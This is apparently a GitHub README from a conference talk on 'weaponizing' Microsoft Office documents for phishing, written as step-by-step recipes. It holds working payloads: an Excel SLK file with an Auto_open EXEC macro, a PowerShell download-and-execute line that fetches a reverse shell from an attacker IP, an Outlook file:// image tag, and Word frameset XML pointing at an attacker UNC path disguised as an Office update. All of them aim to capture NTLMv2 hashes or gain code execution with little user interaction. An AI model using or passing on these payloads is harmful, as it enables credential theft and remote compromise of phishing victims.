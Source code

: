 # Weaponizing-Office

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2018, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called [Responder[(https://github.com/SpiderLabs/Responder), which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:

1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

A common finding in penetration tests is that clients are not properly managing egress packet filtering from their network to the internet. This post specifically talks about the dangers of allowing egress of SMB communications over port 445 to the internet, and one simple method of exploiting it to capture a user's credentials, crack them, and gain access to the network.

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE 

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
2. DONE `HOLY SHIT THAT WAS HARD!!`

#### Capture NTLMv2 Hash

Setup Responder `./Responder.py -I ens4 -vvv`

Replace `c:\shell.cmd` with `cmd.exe /c \\IP\IPC$`. Please make sure the IP is your IP.

Once the file.slk is opened the user will need to click on `Enable Content`. Once the user clicks the button the payload is executed. Once the button is clicked Excel, every time after that the payload will be executed when the file is openned (Unless the files is renamed).

![](excel_NTLMv2_hash_capture.gif)

#### Excel RCE - Powershell Reverse shell(BONUS)

1. Change the `cmd.exe /c \\IP\IPC$` to 

````
	powershell IEX 
	(New-Object Net.WebClient).DownloadString(
	'http://192.168.56.101/test.ps1')
````
2. set up `test.ps1` on a server. 
test.ps1 is a [powershell reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

DONE...

![](excel_NTLMv2_hash_reverse.gif)

More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files

## 2. Outlook (file://)

### Steps:
1. Create HTML email
2. `<img src="file://IP/fakeimage.png" />`
3. Send email! Important!

![](outlook_capture_hash.gif)

NOTE: `the user only needs to download the image once. As the POC shows, once the email is openned again, the hash is captured`

Though: can this be uses as a [DOS attack](https://www.kb.cert.org/vuls/id/867968/)?


## 3. Word (frameset)

> Historically Microsoft Word was used as an HTML editor. This means that it can support HTML elements such as framesets. It is therefore possible to link a Microsoft Word document with a UNC path and combing this with responder in order to capture NTLM hashes externally.

### Setup (more complicated)

1. Create a word document
2. Write anything into the document
3. Save Document
4. Right click on document -> Open archive
5. Edit \file.docx\word\webSettings.xml
6. Add the following to the file between `<w:optimizeForBrowser/>` xml tag

````
<w:frameset>
<w:framesetSplitbar>
<w:w w:val="60"/>
<w:color w:val="auto"/>
<w:noBorder/>
</w:framesetSplitbar>
<w:frameset>
<w:frame>
<w:name w:val="3"/>
<w:sourceFileName r:id="rId1"/>
<w:linkedToFile/>
</w:frame>
</w:frameset>
</w:frameset>
````

7. Create file \file.docx\word\_rels\webSettings.xml.rels

````
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships
xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="\\IP\Microsoft_Office_Updates.docx" TargetMode="External"/>
</Relationships>
````
8. DONE!!!

![](word_capture_hash.gif)

More information on [Framesets](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
